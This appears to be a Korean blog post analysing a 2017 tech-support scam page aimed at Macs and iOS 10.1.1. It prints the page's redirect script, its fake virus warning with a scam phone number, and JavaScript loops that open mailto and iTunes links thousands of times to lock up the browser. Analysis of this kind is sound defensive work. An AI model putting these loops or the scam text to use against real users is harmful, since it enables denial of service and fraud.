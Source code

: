 --- layout: post title: Scam Page triggers DoS attack on some apple product(?) date: 2017-01-08 14:47:36.000000000 +09:00 type: post published: true status: publish categories: - Malware Analysis tags: []
author: login: n0fate email: rapfer@gmail.com display_name: n0fate first_name: '' last_name: '' ---

*딱히 쓸만한 제목이 없어서 제목은 원 글 내용을 따옴*

@qingfro9이 보내준 말웨어 바이트 링크(감사!)인 [Tech support scam page triggers denial-of-service attack on Macs](https://blog.malwarebytes.com/101/mac-the-basics/2017/01/tech-support-scam-page-attempts-denial-of-service-via-mail-app/) 를 보고 확인 중에 아직 살아 있는 사이트(hxxp://safari-get.net)이 있길래 curl로 급하게 긁어와서 정리함.
일단 이 녀석은 `UserAgent`가 `OS 10.1.1` 버전인 운영체제를 대상으로 하는 DoS 취약점임. 링크에서는 맥이라고 써있는데 iOS 10.1.1도 대상인 것 같음. 최신 버전으로 업데이트하면 문제는 해결.

## 스테이지 1
일단 사이트에 접속하면 `index.html` 페이지가 당신을 반김. 이 페이지는 특별한건 없고 접속한 클라이언트 정보를 수집해 통계 정보를제공하는 구글 애널리틱스(google analytics) 코드가 있고, 아래는 웹 브라우저의 사용자 에이전트 정보를 찾아 운영체제 버전을 식별, 리다이렉션 함.

```javascript
	  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
	  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
	  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
	  })(window,document,'script','https://www.google-analytics.com/analytics.js','ga');

	  ga('create', 'UA-73784359-12', 'auto');
	  ga('send', 'pageview');

	if ((navigator.userAgent.match(/OS 10.1.1/i))) {
	   location.replace("hxxp://safari-get.com/11.php");
	} else
	{
	location.replace("hxxp://safari-get.com/10.html");}

```

링크 누르면 납치당하니 좀 수정함.코드를 보면, `OS 10.1.1`, 인 경우, 즉, 아이폰 버전이 10.1.1인 경우 `11.php`로 리다이렉션하고 그 외는 `10.html` 로 리다이렉션함.

## 스테이지 2

### OS 10.1.1이 아닌 경우
일단 `10.html`은 다음과 같음.

```html

	Warning Safari Crashed!!
	 Your Apple Device May Have Adware/Spyware Virus.

	 Call<font size="35px">+1-844-423-2465</font>
immediately to connect with Apple Technical Support for installing the Protection Software. chat logs.

DATA AT RISK:

Your credit card details and banking information.Your e-mail passwords and other account passwords.Your Facebook, Skype, AIM, ICQ and other
<font size="20px">

Your private photos, family photos and other sensitive files.Your webcam could be accessed remotely by stalkers with a VPN virus.
</font>

```

사파리에 출력하는 메시지. 영어 잘 못하는 내가 봐도 문법이 이상함. 여튼 해킹 당했음이라는 메시지인데 이걸 나중에 메일 제목에도 넣음. 아래는 애플 메일 앱을 띄우는 스크립트 코드임.

```html
	jQuery('#result').append('');
```

RFC2638와 [애플 가이드라인](https://developer.apple.com/library/content/featuredarticles/iPhoneURLScheme_Reference/MailLinks/MailLinks.html)을 준수한 코드임. 내용은 다음과 같음.

* 수신자 : `foo@example.com`
* 메일 내용 : Apple Tech Support !
* 참조 : `bar@example.com`
* 제목 : Warning! Virus Detected! Immediately Call ~~~~

그냥 이것만 띄우는 것이면 DoS가 아니지. 이걸 10만번 띄우는 스크립트 코드는 아래에 있음.

```html
	 document.querySelector('a').click(0);

	 for(var i=0;i<100000;i++){
	 	 if(i>0) {

		 document.querySelector('a').click();
		 for(var x=0;x<10000;x++){
		 console.log();
		 }

	} else {
	    document.querySelector('a').click();
	    for(var x=0;x<100000;x++){
		 console.log();
	}
```

메일 보내는 창을 10만번 출력함. 악성코드 걸려서 정보 다털리는건 아니지만 걸리면 짜증날 듯. 시에라 가장 최근버전인 10.12.2에서 확인해보니 경고창을 보여주는 것으로 처리함. (위 링크에 스크린샷 있음). 아이폰에서는 무한로딩.

### OS 10.1.1 인 경우(ex. iOS 10.1.1)
10.1.1 버전인 경우 아이튠즈를 이용함. 핵심 내용은 다음과 같음.

<div class="highlighter-rouge">

```

	jQuery('#result').append('.');
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	[..SNIP..]

```

</div>

핵심은 저 `itunes:문자열(단순한 hello임)`인데 맥에서 테스트해보면 아이튠즈를 한번만 띄움. 아이튠즈 앱 자체가 여러개 뜨는 구조가 아니기 때문인 듯.
아이폰의 경우에는 에러 메시지를 계속 발생시켜서 사파리를 사용불능 상태로 만듬. 문제를 해결하려면 단순히 사파리앱을 껐다가 키는 걸론 안되고, 설정->사파리-> `방문 기록 및 웹 사이트 데이터 지우기`를 선택해서 사파리 내역을 완전 삭제해야 함.

### 추가
`10.html` 코드를 curl로 긁다보니 다음과 같은 코드도 긁혔음.

```bash
	Editing:  
	/home/safarmcl/public_html/port-safari.net/ios.html
	 Encoding:    Re-open Use Code Editor     Close  Save Changes
```

`safari-get.net` 사이트 자체가 실제 운영보다는 테스트용 서버인지 에디팅 경고 메시지가 나타난 그대로 html 파일을 저장하였음. 실제 코드는 아이폰에서 정상작동되지 않음.

## 결론
맥, 아이폰이라고 신난다고 불법 사이트 돌아다니면 뒷통수 맞을 수 있으니 조심히 쓰자.
